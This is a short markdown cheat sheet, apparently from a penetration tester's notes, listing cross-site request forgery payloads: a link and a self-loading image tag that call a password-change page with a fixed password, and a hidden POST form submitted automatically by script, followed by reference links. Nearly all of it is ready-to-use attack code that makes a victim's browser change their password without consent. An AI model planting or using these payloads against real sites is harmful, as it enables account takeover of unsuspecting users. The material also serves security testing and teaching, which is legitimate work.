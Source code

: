# CSRF (Cross Site Request Forgery)

## Payloads

### GET

```html
<!-- Requires user interaction -->
<a href="http://10.10.10.10/changepasswd.php?pass=pass">Click Me</a>

<!-- No user interaction required -->
<img src="http://10.10.10.10/changepasswd.php?pass=pass">
```

### POST

```html
<form id="form" action="http://<host>/changepasswd.php" method="POST">
 <input name="pass" type="hidden" value="pass" />
 <input type="submit" value="Submit" />
</form>

<!-- Auto submit -->
<script>
 document.getElementById("form").submit();
</script>
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)\
[https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery](https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery)
